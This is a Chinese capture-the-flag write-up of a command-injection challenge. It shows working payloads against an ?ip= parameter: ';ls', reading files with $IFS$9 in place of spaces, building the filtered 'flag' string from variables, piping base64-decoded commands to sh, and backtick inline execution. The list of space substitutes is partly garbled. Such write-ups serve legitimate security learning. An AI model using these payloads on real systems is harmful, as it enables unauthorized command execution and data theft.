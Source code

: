 发现确实是Linux命令执行

然后构造命令执行

?ip=127.0.0.1 ;ls

成功执行

![img](img/e9f384002dcb40c3b33a74b18df109be.png)

这里目标就很明确了 访问flag.php

先看看index里写了啥

构造?ip=127.0.0.1;cat index.php

出现 fxxk you space 字样，说明过滤了空格

### 于是使用一些方法代替空格

%20(space)、%09(tab)、$IFS 9 、 9、 9、{IFS}$9、 {IFS}、IFS

先使用{IFS}代替，发现 fxxk symbol 应该是花括号被过滤了，于是使用$IFS$9 成功搞到源码

然后发现[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-0h5CqlbO-1619353883654)(C:\Users\绿冰壶\AppData\Roaming\Typora\typora-user-images\image-20210329193308190.png)]

这个正则会匹配一个字符串中，是否按顺序出现过flag四个字母

因此 我们， 就有了第一种payload构造思路：传参法

```
?ip=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php 
```

第二种思路运行shell 虽然bash被过滤了但是sh 没过滤

payload：

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
```

Y2F0IGZsYWcucGhw是cat flag.php的base64

第三种dalao思路原谅我暂时看不懂

使用内联执行：将反引号内命令的输出作为输入执行

```
?ip=127.0.0.1;cat$IFS$1`ls`或cat$IFS$9$(ls) 
```
